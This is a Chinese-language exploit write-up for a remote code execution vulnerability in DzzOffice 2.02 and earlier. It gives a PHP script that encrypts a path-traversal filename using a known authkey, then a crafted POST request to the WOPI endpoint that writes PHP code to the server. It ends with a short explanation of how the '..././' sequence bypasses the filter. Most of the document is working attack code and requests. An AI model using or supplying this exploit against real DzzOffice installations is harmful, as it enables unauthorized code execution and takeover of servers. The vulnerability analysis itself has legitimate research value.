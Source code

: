 # DzzOffice <= 2.02 RCE
## 环境安装

源代码：

https://github.com/zyx0814/dzzoffice/releases/

![](resource/DzzOffice-=-2.02RCE/media/1.png)

## 利用前提

首先需要获取到authkey  这个可以通过爆破或者其他的方式获取到具体的这个请看文章

我现在的环境的key为：3090dfHwzmw9lsC3

在网上找了一下加密的脚本

```php
<?php 
function authcode_config($string,$key, $operation = 'DECODE', $expiry = 0)
{
$ckey_length = 4;
$key = md5($key);
$keya = md5(substr($key, 0, 16));
$keyb = md5(substr($key, 16, 16));
$keyc = $ckey_length ? ($operation == 'DECODE' ? substr($string, 0, $ckey_length): substr(md5(microtime()), -$ckey_length)) : '';

$cryptkey = $keya.md5($keya.$keyc);
$key_length = strlen($cryptkey);

$string = $operation == 'DECODE' ? base64_decode(substr($string, $ckey_length)) : sprintf('%010d', $expiry ? $expiry + time() : 0).substr(md5($string.$keyb), 0, 16).$string;
$string_length = strlen($string);

$result = '';
$box = range(0, 255);

$rndkey = array();
for($i = 0; $i <= 255; $i++) {
$rndkey[$i] = ord($cryptkey[$i % $key_length]);
}

for($j = $i = 0; $i < 256; $i++) {
$j = ($j + $box[$i] + $rndkey[$i]) % 256;
$tmp = $box[$i];
$box[$i] = $box[$j];
$box[$j] = $tmp;
}

for($a = $j = $i = 0; $i < $string_length; $i++) {
$a = ($a + 1) % 256;
$j = ($j + $box[$a]) % 256;
$tmp = $box[$a];
$box[$a] = $box[$j];
$box[$j] = $tmp;
$result .= chr(ord($string[$i]) ^ ($box[($box[$a] + $box[$j]) % 256]));
}

if($operation == 'DECODE') {
if((substr($result, 0, 10) == 0 || substr($result, 0, 10) - time() > 0) && substr($result, 10, 16) == substr(md5(substr($result, 26).$keyb), 0, 16)) {
return substr($result, 26);
} else {
return '';
}
} else {
return $keyc.str_replace('=', '', base64_encode($result));
}
}

echo base64_encode(authcode_config("disk::..././..././..././shell.php",md5('3090dfHwzmw9lsC3'),'ENCODE'));
```

输出

![](resource/DzzOffice-=-2.02RCE/media/2.png)

然后构造包：

```
POST /core/api/wopi/index.php?access_token=1&action=contents&path=ZmM0OWp3bDgxbDE3WlhocFlCVUl4ZDFvRkNYeDRVaGtQbklJYlVSUjV2VjRzLzBwUkJ0Y051ZHl4QzVITFlvN205cENqZktDY1lyNHRQQ0pWblU= HTTP/1.1
Host: word.com
Content-Length: 18
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.190 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://word.com
Referer: http://word.com/user.php?mod=login
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

<?php phpinfo();?>
```

![](resource/DzzOffice-=-2.02RCE/media/3.png)

对于这个漏洞怎么产生的，具体的可以看看代码。

大概的流程是验证这个path 可用性。然后过滤了../  \n \r 

通过…/./ 绕过。到了写文件的方法。file_put_contents 两个参数都是可控的。就直接写入文件了